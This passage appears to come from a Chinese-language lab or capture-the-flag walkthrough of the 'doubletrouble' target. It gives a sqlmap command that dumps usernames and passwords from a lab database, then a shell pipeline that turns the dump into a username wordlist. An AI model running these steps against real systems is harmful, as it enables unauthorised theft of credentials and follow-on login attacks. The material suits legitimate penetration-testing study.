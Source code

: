 提取字段数据

```
sqlmap -l sql --batch -D doubletrouble -T users -C "username,password" --dump
```

![image-20250315053139964](assets/image-20250315053139964.png)

![image-20250315053144765](assets/image-20250315053144765.png)







#### 处理数据，制作字典

```
cat /home/ra1n3/.local/share/sqlmap/output/192.168.1.11/dump/doubletrouble/users.csv | tail -n +2 | sed  's/,/\n/' > user.txt
```

![image-20250315053711842](assets/image-20250315053711842.png)